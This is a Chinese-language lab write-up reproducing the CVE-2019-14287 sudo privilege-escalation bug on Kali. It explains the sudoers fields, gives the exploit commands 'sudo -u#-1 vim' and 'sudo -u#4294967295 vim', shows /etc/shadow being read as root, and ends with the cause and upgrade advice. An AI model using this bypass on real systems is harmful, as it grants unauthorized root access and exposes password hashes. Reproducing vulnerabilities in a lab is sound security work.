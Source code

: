 # （CVE-2019-14287）sudo提权漏洞

***\*实验环境：\****

kali

***\*影响范围：\****

sudo 1.8.28 之前的所有版本

***\*复现过程\****

查询下sudo的版本

sudo -V

![img](resource/%EF%BC%88CVE-2019-14287%EF%BC%89sudo%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/beepress-image-115878-1571364945.png)

创建用户

useradd testpasswd test

![img](resource/%EF%BC%88CVE-2019-14287%EF%BC%89sudo%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/beepress-image-115878-15713649451.png)

编辑下sudoers文件

![img](resource/%EF%BC%88CVE-2019-14287%EF%BC%89sudo%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/beepress-image-115878-15713649452.png)

这里添加了

test   ALL=(ALL, !root) /usr/bin/vim

这里表示 test 可以 任意主机上  任何用户  但这个用户不能属于root组  执行vim命令

 

这里介绍下字段含义:

授权用户/组 主机=[(切换到哪些用户或组)][是否需要输入密码验证] 命令1,命令2



***\*第一个字段表示：\****

授权用户/组     不以%开头的，代表“将要授权的用户”   以%开头的表示“将要授权的组”

***\*第二个字段表示：\****

允许登录的主机

***\*第三个字段表示：\****

可以切换到的用户或者组，省略表示切换到root。 如果不省略需要用括号表示  (用户:组)

***\*第四个字段表示：\****

若添加NOPASSWD表示不需要输入密码，如果省略则表示需要输入密码

***\*第五个字段表示：\****

可以运行的命令

我们用test用户登录下Kali，并尝试读取shadow文件

![img](resource/%EF%BC%88CVE-2019-14287%EF%BC%89sudo%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/beepress-image-115878-1571364946.png)

然后我们输入

sudo -u#-1 vim或者sudo -u#4294967295 vim

进入到vim

![img](resource/%EF%BC%88CVE-2019-14287%EF%BC%89sudo%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/beepress-image-115878-15713649461.png)

在命令模式下尝试读取/etc/shadow文件

![img](resource/%EF%BC%88CVE-2019-14287%EF%BC%89sudo%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/beepress-image-115878-1571364947.png)

![img](resource/%EF%BC%88CVE-2019-14287%EF%BC%89sudo%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/beepress-image-115878-1571364947.jpg)

 成功读取，同样也可以用vim执行其他的命令（以root身份）

 

***\*总结OR预防：\****

1.之所以会产生这个漏洞，是因为将用户 ID 转换为用户名的函数会将 -1（或无效等效的 4294967295）误认为是 0，而这正好是 root 用户 User ID

2.请将 sudo 升级到 1.8.28 最新版本，该漏洞会影响 1.8.28 之前的所有版本。